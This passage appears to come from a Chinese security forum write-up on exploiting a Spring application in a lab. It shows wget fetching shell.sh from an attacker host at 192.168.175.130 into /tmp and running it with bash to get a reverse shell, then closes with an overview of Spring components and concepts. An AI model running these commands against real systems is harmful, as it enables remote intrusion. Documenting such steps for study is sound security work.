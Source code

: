 python开启http服务

![image-20210522095232922](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-40c7b31010266bcf5bdac6d9ccb0c1b6a9902e25.png)

上传sh脚本

```php
/usr/bin/wget -qO /tmp/a002 http://192.168.175.130:9999/shell.sh
```

进行执行

![image-20210522095354596](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2b8bea3269e738936ad7b7d16e193a6df8c392e7.png)

然后继续去docker底层看一下

可以看到成功写入

![image-20210522095552456](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-52491684b075d6aa90a0288b91e9d4612936abc5.png)

然后进行执行sh脚本

```php
/bin/bash /tmp/a002
```

![image-20210522095701465](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-24dcc8a16a9b9d0124135517601ca8fe645c9e35.png)

成功拿到反弹shell

![image-20210522095743196](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-170b5febce2dff54041857f24cd39e545a3a86d7.png)

总结
==

Spring其中关键的5个部分，分别是

```php
spring framework、springboot、spring cloud、spring security、spring mvc
```

其中的 spring framework就是大家常常提到的 spring，这是所有 sprIng内容最基本的底层架构，其包含 spring mvc、springboot、spring core、IOC和AOP等等

Spring mvc就是 spring中的一个MVC框架，主要用来开发web应用和网络接口，但是其使用之前需要配置大量的xml文件，比较繁琐

所以出现 springboot，其内置 tomcat并且内置默认的XML配置信息，从而方便了用户的使用。下图就直观表现了他们之间的关系

spring security主要是用来做鉴权，保证安全性的

Spring Cloud基于 Spring Boot，简化了分布式系统的开发，集成了服务发现、配置管理、消息总线、负载均衡、断路器、数据监控等各种服务治理能力整个 spring家族有四个重要的基本概念，分别是

```php
IOC:控制反转

Context:上下文

Bean:被Spring 容器管理的Java对象

AOP:面向切面的编程
```